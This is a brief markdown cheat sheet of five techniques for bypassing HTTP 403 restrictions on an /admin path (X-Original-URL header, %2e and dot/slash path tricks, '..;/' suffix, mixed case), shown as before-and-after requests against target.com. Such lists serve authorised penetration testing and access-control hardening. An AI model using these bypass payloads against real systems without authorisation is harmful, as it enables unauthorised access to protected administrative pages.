 # 403 Forbidden Bypass

1. Using "X-Original-URL" header
```
GET /admin HTTP/1.1
Host: target.com
```
Try this to bypass
```
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```

2. Appending **%2e** after the first slash
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/%2e/admin => 200
```

3. Try add dot (.) and slash (/) in the URL
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/admin/. => 200
http://target.com//admin// => 200
http://target.com/./admin/./ => 200
```

4. Add "..;/" after the directory name
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/admin..;/
```


5. Try to uppercase the alphabet in the url
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/aDmIN
```

Source: [@iam_j0ker](https://twitter.com/iam_j0ker)
